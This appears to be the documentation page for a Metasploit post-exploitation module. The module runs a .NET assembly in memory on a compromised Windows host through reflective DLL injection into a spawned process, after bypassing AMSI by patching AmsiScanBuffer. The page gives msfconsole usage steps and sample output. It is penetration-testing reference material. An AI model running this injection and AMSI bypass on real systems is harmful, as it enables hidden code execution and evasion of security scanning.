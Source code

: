 # Execute .Net assembly via Meterpreter session

This module executes a .NET Assembly from a Meterpreter session

It spawns a process (or uses an existing process if provided a pid) and
uses Reflective dll injection to load HostingCLRx64.dll needed to run
.Net assembly. The unmanaged injected dll takes care of verifying if the
process has already loaded the clr, and loads it if necessary. The
version of the CLR to be loaded is determined by parsing of the assembly
provided and searching for a known signature. Then it runs the assembly
from memory.
Before loading the assembly in the context of the clr, Amsi is bypassed
using the AmsiScanBuffer patching technique.
(https://rastamouse.me/2018/10/amsiscanbuffer-bypass-part-1/)

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter-session.html)

## Verification Steps

  Example 1 no PID specified:

  1. Start Clone from github SeatBelt or other .Net progect
  2. Buid project with target framework 4.x or 3.5
  2. Start msfconsole
  4. Do: ```use post/windows/manage/execute_dotnet_assembly```
  5. Do: ```set SESSION sessionid```
  6. Do: ```set DOTNET_EXE /your/output/folder/file.exe```
  7. Do: ```set ARGUMENTS user```
  8. Do: ```run```
  9. You should get something like that follow

```
msf5 post(windows/manage/execute_dotnet_assembly) > run

[*] Launching notepad.exe to host CLR...
[+] Process 10628 launched.
[*] Reflectively injecting the Host DLL into 10628..
[*] Injecting Host into 10628...
[*] Host injected. Copy assembly into 10628...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] 
[+] 
[+]                         %&&@@@&&                                                                                  
[+]                         &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
[+]                         &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
[+] %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
[+] #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
[+] #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
[+] #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
[+] #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
[+] ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
```